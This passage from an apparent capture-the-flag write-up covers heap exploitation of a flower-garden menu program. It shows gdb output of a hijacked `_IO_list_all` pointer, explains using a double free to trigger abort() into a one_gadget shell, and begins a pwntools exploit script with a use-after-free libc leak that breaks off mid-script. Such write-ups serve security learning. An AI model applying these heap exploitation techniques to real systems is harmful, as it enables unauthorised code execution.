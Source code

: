 After we add this flower, our `_IO_list_all` pointer should now point to our fake `_IO_file_plus` object.
{% highlight bash %}
gdb-peda$ x/10xg 0x7fd76f205520-0x20
0x7fd76f205500 <_nl_global_locale+224>: 0x00007fd76efced9a      0x4141410000000000
0x7fd76f205510: 0x4141414141414141      0x4242424141414141
0x7fd76f205520 <_IO_list_all>:  0x00005643a4b7c5f0      0x0000000000000000
{% endhighlight %}

## Trigger abort() subroutine
Lastly, to trigger the `abort()` subroutine which should eventually call our one_gadget, we just free a flower twice which will set off a double-free memory corruption error.

Putting everything together, we are able to get a shell using the following exploit.

## Exploit
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def addFlower(size,color,name):
    r.send("1")  
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.send(name) 
    r.recvuntil(":")
    r.send(color)
    r.recvuntil(":")

def delFlower(index, out=True):
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(index))
    if out:
        r.recvuntil(":")

def cleanGarden(index):
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(index))
    r.recvuntil(":")

def printGarden():
    r.sendline("2")
    wasted = r.recvuntil("ZZZZZZZ\n")
    return r.recvuntil("Your choice :")

def exploit(r):  
    r.recvuntil(":")

    ## STAGE 1: UAF TO LEAK LIBC, HEAP ##
    log.info("starting stage 1 UAF attack...")
    addFlower(0x28,"A"*23,"B"*0x28) # A, B
    addFlower(0x28,"C"*23,"D"*0x28) # C, D
    addFlower(0x80,"E"*23,"F"*0x80) # E, F # small chunk
    addFlower(0x28,"G"*23,"H"*0x28) # G, H
    addFlower(0x80,"I"*23,"J"*0x80) # I, J
    addFlower(0x28,"K"*23,"L"*0x28) # K, L # to avoid forward consolidation w/ wilderness

    # free F, J  
    delFlower(2) 